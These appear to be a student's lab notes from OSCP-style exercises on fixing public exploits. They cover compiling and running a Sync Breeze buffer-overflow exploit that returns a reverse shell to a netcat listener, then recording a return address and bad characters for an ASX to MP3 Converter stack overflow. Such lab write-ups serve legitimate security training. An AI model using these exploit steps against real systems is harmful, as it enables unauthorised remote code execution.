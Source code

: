 15.1.7.1

# 15.1.7.1
## 15.1.7.1.1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

Change the buffer size in 42341.c
![a799891dbe3be0a8219452a8e0febb82.png](../../../_resources/0a9ae5fa8a3048fbb23996f8455e8e0c.png)

Compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Open a netcat listener on port 443
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (don't set any breakpoints)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Notice we have a shell on the netcat listener
![8b60af1051195f7413f3f1527564a588.png](../../../_resources/c7324500933a4296b51e97247b453b52.png)


## 15.1.7.1.2. Install the ASX to MP3 Converter application located under the **C:\Tools\fixing_exploits** directory; download the exploit for ASX to MP3 Converter from EDB 391 and edit it in order to get a shell on your dedicated Windows machine.

### Find other exploits that may target Windows 10 Pro
Packet Storm link https://packetstormsecurity.com/files/154788/ASX-To-MP3-Converter-3.1.3.7-Stack-Overflow.html has interesting info. A **return address 0x1002D038** and **bad chars \x00\x09\x0a**
![a7488b632a0c4b0cef85b2be6cbe7289.png](../../../_resources/bd5ce1372bde4d56a50b539262874b4a.png)




